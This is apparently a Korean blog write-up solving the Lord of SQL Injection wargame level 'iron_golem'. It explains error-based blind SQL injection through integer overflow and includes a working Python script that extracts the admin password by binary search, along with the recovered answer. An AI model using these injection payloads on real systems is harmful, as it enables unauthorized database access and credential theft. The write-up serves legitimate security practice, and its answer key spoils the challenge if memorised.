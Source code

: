 ```yaml
---
title: LOS - 21번 iron_golem
category: [Wargame, Lord of SQL Injection]
---
```


# [21] iron_golem

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcPwCAb%2FbtrnN2IAMBF%2FDQ6Tb1nf7xL43zwK3VJjqk%2Fimg.png">

## 풀이

solve 조건은 admin 계정의 pw를 알아내는 것이다.

<br> 

preg_match를 살펴보면 sleep과 benchmark를 필터링하고 있다.

두 함수 모두 Time Based Blind SQLi에 쓰이는 함수다.

.과 _등을 함께 필터링하므로 헤비쿼리도 사용이 불가능하다.

Timed Based로 접근하기 위한 방법이 모두 막혔으므로, 다른 방식으로 푸는 문제임을 유추할 수 있다.

* 헤비쿼리 : information_schema.columns 등을 여러개 join시켜 내부 데이터를 왕창 읽어들임으로써 시간을 지연시키는 방법이다.

<br> 

또한 지금까지의 문제들처럼 쿼리의 실행 결과를 보여주는 대신, 에러 발생 시 에러 메시지를 보여주고 있다.

* Hello {$result[id]} → mysqli_error($db)

<br> 

이러한 점들로 미루어 보아, **Error Based**로 접근해야하는 문제임을 짐작할 수 있다.

Timed Based나 Error Based에 대해 제대로 공부해본 적이 없었기 때문에 여기까지 결론을 내리는데 많은 시간이 소요되었다...

<br> 

고의적으로 에러를 발생시키는 방법에는 여러가지가 있다.

* 이 때, 발생시켜야하는 에러는 Syntax Error가 아닌 Runtime Error이다.

<br> 

그 중 개인적으로 가장 간단하다고 생각한 방법인 **큰 수 연산**을 통해 문제를 해결해보았다.

말 그대로, Integer 범위를 초과하는 과도한 연산을 요청함으로써 에러를 발생시키는 방법이다.

<br> 

먼저, 과도하게 큰 수의 연산을 요청했을 시의 에러 메시지의 내용을 확인해본다.

<br> 

다음은 pw의 페이로드로 **' or 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF** 를 주었을 시의 에러 메시지의 내용이다.

<br>

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcV5YE2%2FbtrnHQ9Yybo%2FRNhtCVTKtlnkiJ43qeGg8k%2Fimg.png">

<br>

위 에러 메시지 내용의 일부를 키워드로 활용하여 자동화 코드를 짜면 된다.

나는 **out of range**를 선택했다.

- res.text에 out of range가 포함되어있을 시 에러가 발생한 것으로 판별한다.

<br> 

pw의 길이를 찾았을 시 에러를 발생시키기 위한 페이로드의 예시는 다음과 같다.

```python
param=f"?pw=' or id='admin' and if(length(pw)={num}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
```

이후 완전한 pw를 찾는 방법도 동일한 로직을 사용한다.

특정 인덱스의 아스키를 찾았을 시 에러를 발생시켜주면 된다.

<br> 

또한 이번 문제에서도 검색 속도를 높이기 위해 2진 탐색을 적용해준다.

<br>

**LoS 21번 Python 자동화 코드**이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php"
    cookie = "dfksep8hnmequ6sm0qe1iu65pa"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 21을 시작합니다")

for num in range(0,100):
    param=f"?pw=' or id='admin' and if(length(pw)={num}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
    if("out of range" in send(param)):
        print(f"👏 pw의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?pw=' or id=\"admin\" and if(ascii(substr(pw,{len},1))>={middle}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
        if("out of range" in send(param)):
            param=f"?pw=' or id=\"admin\" and if(ascii(substr(pw,{len},1))={middle}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
            if("out of range" in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 pw의 정체는 [{ans}]입니다!")
```

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FlzbFA%2FbtrnR3lVWQ4%2FOP9KfPRWEIVTnk5vlbLbG1%2Fimg.png">

Blind 공격 결과, pw는 `06b5a6c16e8830475f983cc3a825ee9a` 임을 확인할 수 있다.


## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbvUIOy%2FbtrnHSz1mvI%2FmWvA84g3zRa4OBEfXhTkj1%2Fimg.png">